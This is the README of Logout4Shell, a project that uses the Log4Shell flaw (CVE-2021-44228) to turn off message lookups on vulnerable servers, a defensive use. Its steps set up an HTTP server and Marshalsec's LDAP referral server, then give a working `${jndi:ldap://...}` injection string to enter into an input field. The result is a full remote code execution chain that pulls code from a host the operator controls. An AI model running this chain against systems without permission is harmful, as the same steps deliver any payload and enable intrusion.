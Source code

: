 # Logout4Shell

## Description 
A vulnerability impacting Apache Log4j versions 2.0 through 2.14.1 was disclosed on the project’s Github on December 9, 2021. The flaw has been dubbed “Log4Shell,”, and has the highest possible severity rating of 10. Apache is pervasive and comprises nearly a third of all web servers in the world—making this a potentially catastrophic flaw.
The Log4Shell vulnerability CVE-2021-44228 was published on 12/9/2021 and allows remote code execution on vulnerabe servers.

While the best mitigation against this vulnerability is to patch log4j to 2.15.0 and above, in Log4j version (>=2.10) this behavior can be mitigated by setting system property “log4j2.formatMsgNoLookups” to “true” or by removing the JndiLookup class from the classpath. 
Additionally, if the server has Java runtimes >= 8u121, then by default, the
settings “com.sun.jndi.rmi.object.trustURLCodebase” and
“com.sun.jndi.cosnaming.object.trustURLCodebase” are set to “false”, mitigating this risk.

However, enabling these system property requires access to the vulnerable servers as well as a restart. 
The code in this repository _exploits_ the same vulnerability and the payload therein forces the logger to reconfigure itself with the vulnerable setting disabled - this effectively blocks any further attempt to exploit Log4Shell on this server

## How it works
The payload and exploit below use the java runtime to reconfigure the logger. 
Prior to reconfiguring the global setting
`FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS` is set to True, disabling message
format lookups and preventing further exploitation of this attack

## How to use

1. Download this report and build it 

   1.1 `git clone https://github.com/cybereason/Logout4Shell.ssh`

   1.2 build it - `mvn package`

   1.3 `cd target/class`

   1.4 run the webserver - `python3 -m http.server 8888`

2. Download, build and run Marshalsec's ldap server

   2.1 `git clone https://github.com/mbechler/marshalsec.git`

   2.2 `mvn package`

   2.3 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<IP_OF_PYTHON_SERVER_FROM_STEP_1>:8888/#Log4jRCE"`

3. To immunize a server

   3.1 enter `${jndi:ldap://<IP_OF_LDAP_SERVER_FROM_STEP_2>:1389/a}` into a vulnerable field (such as user name)

